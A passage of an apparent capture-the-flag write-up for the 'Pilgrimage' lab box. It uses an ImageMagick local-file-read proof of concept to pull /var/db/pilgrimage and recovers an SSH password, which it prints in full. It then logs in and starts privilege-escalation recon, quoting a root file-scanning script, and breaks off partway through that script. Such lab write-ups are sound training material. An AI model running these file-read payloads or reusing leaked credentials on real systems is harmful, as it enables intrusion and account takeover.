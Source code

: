 Now I need to use the PoC to disclose those details!
```bash
$ python3 generate.py -f "/var/db/pilgrimage" -o leak.jpg

   [>] ImageMagick LFI PoC - by Sybil Scan Research <research@sybilscan.com>
   [>] Generating Blank PNG
   [>] Blank PNG generated
   [>] Placing Payload to read /var/db/pilgrimage
   [>] PoC PNG generated > leak.jpg

```

After uploading, downloading the converted data, and decode the hex:
```
emilyabigchonkyboi123
```
Cool! Let's see if that's an SSH credential...
Success!
```
emily : abigchonkyboi123
```

Proof:
```
emily@pilgrimage:~$ pwd
/home/emily
emily@pilgrimage:~$ whoami && id
emily
uid=1000(emily) gid=1000(emily) groups=1000(emily)
```

# PrivEsc

Checked and I am not able to sudo any commands so no easy win there. 😫

Let's look at services now with pspy64...

Interesting processes:
```
/us/local/sbin/laurel --config /etc/laurel/config.toml
```
Turns out to be nothing interesting... huh... I'm also not seeing any of the processes the website runs... Maybe it only runs them when a web user converts a picture? I'll send over a picture while running pspy and see what comes up... 
```
2023/07/01 04:06:46 CMD: UID=0     PID=1604   | /bin/bash /usr/sbin/malwarescan.sh 
2023/07/01 04:06:46 CMD: UID=0     PID=1605   | /bin/bash /usr/sbin/malwarescan.sh 
2023/07/01 04:06:46 CMD: UID=0     PID=1606   | /bin/bash /usr/sbin/malwarescan.sh 
2023/07/01 04:06:46 CMD: UID=0     PID=1607   | /bin/bash /usr/sbin/malwarescan.sh 
2023/07/01 04:06:46 CMD: UID=0     PID=1608   | fusermount -u -q -z -- /tmp/.mount_magick7sVbNs
```
That's an interesting script... 
Here's what it says:
```bash
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 | /usr/bin/sed -n -e 's/^.*CREATE //p')"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
        for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
```